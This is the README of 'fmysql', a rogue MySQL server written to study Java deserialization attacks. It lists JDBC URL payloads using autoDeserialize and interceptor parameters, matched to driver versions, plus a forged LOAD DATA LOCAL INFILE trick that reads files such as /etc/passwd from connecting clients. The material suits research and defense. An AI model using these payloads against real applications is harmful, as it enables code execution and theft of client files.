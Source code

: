 # fmysql

一个基于 [netty-mysql-codec](https://github.com/mheath/netty-mysql-codec) 开发的恶意 MySQL 服务器。出于学习 [https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)，的内容而编写。


> 在 JDBC URL 可控的条件下攻击 MySQL JDBC Driver。

## 反序列化

Poc 代码位于 `test/java/com/github/trganda/dser` 下，使用的 Gadget 为 [CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)。

### `ServerStatusDiffInterceptor` 参数触发

#### 8.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

#### 6.x

属性名不同，变更为 `statementInterceptors`

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

#### 5.1.11 - 5.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
```

> `5.1.10` 及以下的 `5.1.X` 版本：同上，但是需要连接后执行查询。

#### 5.0.x

没有 `ServerStatusDiffInterceptor`，不可利用。

### `detectCustomCollations` 触发：

#### 5.1.41 - 5.1.x

不可用

#### 5.1.29 - 5.1.40

```java
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true
```

#### 5.1.19 - 5.1.28

```
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
```

#### 5.1.x - 5.1.18

不可用

#### 5.0.x

不可用

## 任意文件读取

Poc 代码位于 `test/java/com/github/trganda/file` 下。

MySQL 支持 `load data local infile` 语句读取文件发送至服务端。

```sql
load data local infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';
```

通信流程如下，可以通过伪造响应内容 `0xFB + 需要读取的文件路径`，让客户端读取任意文件

<img width="438" alt="image" src="https://github.com/trganda/fmysql/assets/62204882/c8c5500f-a731-4640-b85e-e1147fe354d6">



